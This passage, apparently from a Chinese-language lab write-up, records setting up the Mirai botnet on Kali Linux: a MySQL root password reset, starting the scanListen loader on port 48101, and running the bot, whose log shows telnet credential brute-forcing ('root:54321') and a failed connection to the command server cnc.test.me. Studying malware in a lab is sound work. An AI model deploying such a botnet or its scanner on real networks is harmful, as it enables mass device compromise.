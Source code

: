 如果连接时报错：

```bash
┌──(root㉿kali)-[/home/kali/my-mirai]
└─# mysql -h 127.0.0.1 -u root -p
Enter password:
ERROR 1698 (28000): Access denied for user 'root'@'localhost'
```

需要先：

```text
Step 1. `sudo mysql -u root -p`
Step 2. `USE mysql;`
Step 3. `ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'admin';`
# Here 'admin' is your new password, but you can change it.

Step 4. `exit`

如果提示语法错误：
# ALTER USER 'root'@'localhost' IDENTIFIED BY 'admin';
```

然后再：

```bash
sudo service mysql restart
```

### 执行 loader

```bash
cd mirai/debug
sudo ./scanListen

┌──(root㉿kali)-[~]
└─# netstat -lput | grep 48101
tcp6       0      0 [::]:48101              [::]:*                  LISTEN      1041257/./scanListe
```

### 在 150 机器上启动 mirai.dbg

运行 bot 后无法 CNC 上线，始终报错，尝试 5 次后失败

```bash
[scanner] FD61 connected. Trying root:54321
[resolv] Couldn't resolve cnc.test.me in time. 5 tries Resolved cnc.test.me to 0 IPv4 addresses
[main] Failed to resolve CNC address
[scanner] FD64 connection grace[fmualilny]  cCloonsneedc
t[esdc atnon eCrN]C .F DL6o4c allo satd dcroensnse c=tio n-
1908692800
[scanner] FD64 retrying with different auth combo!
```

### 再次确定 DNS 配置
